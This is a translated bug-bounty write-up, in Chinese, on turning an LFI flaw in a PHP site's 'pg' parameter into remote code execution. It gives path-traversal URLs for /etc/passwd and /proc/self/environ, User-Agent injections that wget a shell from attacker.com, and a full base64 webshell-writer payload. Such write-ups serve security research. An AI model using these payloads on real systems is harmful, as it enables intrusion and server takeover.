







# 在拥有+20000 用户的网站中利用 LFI 到 RCE

> 原文：<https://infosecwriteups.com/leveraging-lfi-to-rce-in-a-website-with-20000-users-129050f9982b?source=collection_archive---------0----------------------->

研究者和捕虫者们，你们好！最近我发现了一个有趣的攻击媒介，我想与你分享。别浪费时间，让我们开始吧。

# 发现 LFI 漏洞

我们浏览一下网站，看看是否能找到什么有趣的端点。点击**联系我们**引出一个有趣的终点:

```
https://www.website.com/index.php?pg=contact.php
```



contact.php

我开始模糊化 *pg* 参数，发现 LFI 可以使用以下有效载荷:

```
https://www.website.com/index.php?pg=../../../../etc/passwd
```



到目前为止还不错，我们有 LFI，但让我们试着增加影响。

# 从 LFI 到 RCE

使用所有可能的已知技术将一个 LFI 漏洞升级到 RCE，我发现 **/proc/self/environ** 对我们来说是可读的。因此，输入以下代码会泄露信息:

```
https://www.website.com/index.php?pg=../../../../proc/self/environ
```



不错！分析输出，我们可以看到位于***/proc/self/environ***下的文件包含了 **HTTP_USER_AGENT** 等几个环境变量。


很好，让我们启动 Burp Suite，并通过更改用户代理值来发送请求。我尝试向用户代理添加以下值:

**试过系统()，但没有 RCE:**

```
User-Agent: <?system('wget http://attacker.com/shell.txt -O shell.php');?>
```

**尝试了 exec()，但没有 RCE:**

```
User-Agent: <?exec('wget http://attacker.com/shell.txt -O shell.php');?>
```

**尝试 phpinit()，但失败:**

```
User-Agent: <?php phpinfo(); ?>
```

这是我花了很多时间的地方，我忘记了我可以尝试在服务器内部写文件，所以我尝试了下面的有效载荷(我会解释)。

让我们创建一个有效负载，我们将在**用户代理** HTTP 头中使用它:

```
User-Agent: <?php $a = base64_decode('PD9waHAgCiAgJGEgPSAkX1BPU1RbJ2NvZGUnXTsKICAkZmlsZSA9IEBmb3BlbigkX1BPU1RbJ2ZpbGUnXSwndycpOwogIEBmd3JpdGUoJGZpbGUsJGEpOwogIEBmY2xvc2UoJGZpbGUpOwo/Pgo8Y2VudGVyPgogIDxmb3JtIG1ldGhvZD0icG9zdCIgaWQ9ImZvcm0iPgogICAgPGgyPkZpbGUgV3JpdGVyPC9oMj4KICAgIEZpbGUgTmFtZTxicj48aW5wdXQgdHlwZT0idGV4dCIgbmFtZT0iZmlsZSIgcGxhY2Vob2xkZXI9InNoZWxsLnBocCI+PGJyPgogICAgU2hlbGwgQ29kZTxicj48dGV4dGFyZWEgbmFtZT0iY29kZSIgZm9ybT0iZm9ybSIgcGxhY2Vob2xkZXI9IlBhc3RlIHlvdXIgc2hlbGwgaGVyZSI+PC90ZXh0YXJlYT48YnI+CiAgICA8aW5wdXQgdHlwZT0ic3VibWl0IiB2YWx1ZT0iV3JpdGUiPgogIDwvZm9ybT4KPC9jZW50ZXI+Cg=='); $file = fopen('nadeshot.php','w'); echo fwrite($file,$a); fclose($file); ?>
```

## 解释使用的有效负载

webshell 以 base64 编码，并存储在一个变量中。原 webshell php 代码来自:[https://github . com/alita-I do/PHP-File-Writer/blob/master/lfi-Writer . PHP](https://github.com/alita-ido/PHP-File-Writer/blob/master/lfi-writer.php)

```
$a = base64_decode('webshell_base64_encoded_code_here');
```

之后，我们告诉服务器写一个名为**nadeshot.php 的文件。**

```
$file = fopen('nadeshot.php','w');
```

然后，服务器将代码(解码 base64)写入**nadeshot.php**

```
echo fwrite($file,$a);
```

然后，服务器将保存该文件:

```
fclose($file);
```

因此，让我们尝试在 Burp Suite 中执行整个有效负载，看看会发生什么。



我们得到了响应 200 (OK)，这很好。我们希望我们的有效载荷按计划执行，所以让我们通过访问:https://website.com/nadeshot.php 来检查它是否成功执行



webshell 已上传

我们的 webshell 被上传到了 **/nadeshot.php** 。很好，现在让我们写一个简单的。txt 文件(尽量不伤害网站)看看有没有用。



我将创建一个名为 **nadeshot.txt** 的文本文件，然后单击“写入”。

进入*https://website.com/nadeshot.txt*将显示我们的文本文件。我们成功地扩大了从 LFI 到 RCE 的影响力。



RCE 实现了